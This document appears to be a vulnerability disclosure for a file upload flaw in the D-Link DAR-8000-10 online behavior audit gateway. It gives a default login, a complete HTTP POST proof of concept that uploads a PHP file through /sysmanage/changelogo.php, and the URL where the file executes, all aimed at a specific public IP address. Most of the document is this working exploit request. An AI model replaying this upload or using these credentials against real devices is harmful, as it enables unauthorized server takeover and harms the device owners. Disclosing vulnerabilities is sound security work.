 

The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10  DAR V31R02B1413C

Vulnerability Path ：/sysmanage/changelogo.php


Ip：https://59.60.19.174:8443/

Log in to the system using the default password：test/admin@123

POC：
```
POST /sysmanage/changelogo.php HTTP/1.1
Host: 59.60.19.174:8443
Cookie: PHPSESSID=eb22543a6a7b4ffd10816d515b505f7f
Accept: image/gif, image/jpeg, image/pjpeg, application/x-ms-application, application/xaml+xml, application/x-ms-xbap, */*
Accept-Language: zh-CN
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)
Content-Type: multipart/form-data; boundary=---------------------------7e62f02f51878
Accept-Encoding: gzip, deflate
Content-Length: 326
Cache-Control: no-cache
Connection: close

-----------------------------7e62f02f51878
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------7e62f02f51878
Content-Disposition: form-data; name="mode"

upload
-----------------------------7e62f02f51878--

```
<img width="726" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/e3704d22-d80d-459e-8c3b-2f9d7333fbc7">

https://59.60.19.174:8443/boot/web/upload/diylogo/phpinfo.php

<img width="723" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/30362ba8-80b6-4f9a-bd4f-47601844974b">
